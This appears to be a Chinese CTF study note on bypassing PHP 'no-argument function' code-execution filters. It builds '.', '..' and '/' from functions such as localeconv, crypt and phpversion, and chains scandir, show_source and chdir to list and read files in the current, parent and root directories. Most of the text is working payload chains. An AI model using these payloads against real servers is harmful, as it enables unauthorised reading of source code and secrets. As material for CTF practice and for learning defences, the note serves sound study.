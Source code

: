 [TOC]

### 查看当前目录文件名

- `localeconv()`：返回一包含本地数字及货币格式信息的数组。而数组第一项就是`.`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719173153265.png)

- `current()`：返回数组中的单元，默认取第一个值，或者使用`pos(localeconv());`，`pos`是`current`的别名，如果都被过滤还可以使用`reset()`，该函数返回数组第一个单元的值，如果数组为空则返回 `FALSE`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719173326469.png)

- `chr(46)`就是字符`.`

  ```
  构造46的几个方法
  chr(rand()) (不实际，看运气)
   
  chr(time())
   
  chr(current(localtime(time())))
  ```

  `chr(time())`：`chr()`函数以256为一个周期，所以`chr(46)`,`chr(302)`,`chr(558)`都等于`.`，所以使用`chr(time())`，一个周期必定出现一次`.`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719173621207.png)

  `chr(current(localtime(time())))`：数组第一个值每秒+1，所以最多60秒就一定能得到46，用`current`或者`pos`就能获得`.`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719173926887.png)

- `phpversion()`：返回PHP版本，如`5.5.9`

  `floor(phpversion())`返回 `5`

  `sqrt(floor(phpversion()))`返回`2.2360679774998`

  `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`

  `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`

  `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`

  `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`

  `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`"."`

- `crypt()`：

  `hebrevc(crypt(arg))`可以随机生成一个hash值，第一个字符随机是`$`(大概率) 或者 `"."`(小概率) 然后通过`chr(ord())`只取第一个字符

  ps：`ord()`返回字符串中第一个字符的Ascii值

  `print_r(scandir(chr(ord(hebrevc(crypt(time()))))));//（多刷新几次）`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719182620374.png)

  同理：`strrev(crypt(serialize(array())))`也可以得到`"."`，只不过`crypt(serialize(array()))`的点出现在最后一个字符，需要使用`strrev()`逆序，然后使用`chr(ord())`获取第一个字符

  `print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));`

  ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719183135310.png)

  PHP的函数如此强大，获取`"."`的方法肯定还有许多

  正常的，我们还可以用`print_r(scandir('绝对路径'));`来查看当前目录文件名

  获取绝对路径可用的有`getcwd()`和`realpath('.')`

  所以我们还可以用`print_r(scandir(getcwd()));`输出当前文件夹所有文件名

### 读取当前目录文件

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719184112763.png)

`show_source(end(scandir(getcwd())));`或者用`readfile`、`highlight_file`、`file_get_contents` 等读文件函数都可以（使用`readfile`和`file_get_contents`读文件，显示在源码处）

ps：`readgzfile()`也可读文件，常用于绕过过滤

`array_reverse()`： 以相反的元素顺序返回数组，本来在最后一位，反过来就成为第一位，可以直接用`current`或者`pos`读取

`show_source(current(array_reverse(scandir(getcwd()))));`

如果是倒数第二个我们可以用：`show_source(next(array_reverse(scandir(getcwd()))));`

>`next()` 函数用于将数组内部的指针向后移动，并返回当前指针位置的下一个元素的值。
>
>```
>$fruits = array("apple", "banana", "orange");
>echo current($fruits); // Output: "apple"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "banana"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "orange"
>
>next($fruits); // 移动指针到下一个元素，此时没有下一个元素，返回 false
>echo current($fruits); // Output: false
>在上述示例中，通过使用 next() 函数，我们将数组指针从第一个元素移动到第二个元素，然后再移动到第三个元素，最后移动到了最后一个元素后返回了 false
>```

如果不是数组的最后一个或者倒数第二个呢？

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`从数组中随机选择一个或多个键，并返回选定的键或键的数组

所以我们可以用：`show_source(array_rand(array_flip(scandir(getcwd()))));`

或者：`show_source(array_rand(array_flip(scandir(current(localeconv())))));`

（可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取，后文就只列举简单的语句）

### 查看上一级目录文件名

`dirname()` ：返回路径中的目录部分，比如：

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230719190241851.png)

如果传入的值是绝对路径（不包含文件名），则返回的是上一层路径，传入的是文件名绝对路径则返回文件的当前路径

`chdir()` ：改变当前工作目录返回值为`bool`

- dirname()方法

  `print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件`

  `chdir(dirname(getcwd())); //设置上级目录为运行目录`

- 构造`..`

  我们`scandir(getcwd())`出现的数组第二个就是`".."`，所以可以用`next()`获取`print_r(next(scandir(getcwd())));`

  结合上文的一些构造都是可以获得`..`的 ：`next(scandir(chr(ord(hebrevc(crypt(time()))))))`

### 读取上级目录文件

直接`print_r(readfile(array_rand(array_flip(scandir(dirname(getcwd()))))));`是不可以的，会报错，因为默认是在当前工作目录寻找并读取这个文件，而这个文件在上一层目录，所以要先改变当前工作目录

前面写到了`chdir()`，使用：`show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`即可改变当前目录为上一层目录并读取文件：

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720172405756.png)

如果不能使用`dirname()`，可以使用构造`..`的方式切换路径并读取：

但是这里切换路径后`getcwd()`和`localeconv()`不能接收参数，因为语法不允许，我们可以用之前的`hebrevc(crypt(arg))`

这里`crypt()`和`time()`可以接收参数，于是构造：

```
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
或更复杂的：show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
还可以用：show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
```

还有一种构造方法`if()`：（这种更直观些，并且不需要找可接收参数的函数）

`if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));`

### 查看和读取多层上级路径

**查看多层上级路径：**

`scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))));`
![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720172811801.png)

`scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))));` 要刷新很久，建议配合burp爆破使用
![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720175902183.png)

**读取多层上层路径文件：**

`array_rand(array_flip(scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))))));`
![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720172840411.png)

`array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))))));`		建议配合burp爆破使用

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720180542945.png)

### 查看和读取根目录文件

`hebrevc(crypt(arg))`或`crypt(arg)`所生成的字符串最后一个字符有几率是`/`，再用`strrev()`反转再获取第一位字符就有几率获得`/`（读根目录文件需要有权限）

`chr(ord(strrev(hebrevc(crypt(time())))))`
![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230720182030861.png)

同样的：

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));


也可以查看根目录文件，但是也会受到权限限制，不一定成功

读根目录文件：(也是需要权限)

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))show_source(array_rand(array_flip(scandir(getcwd()))));
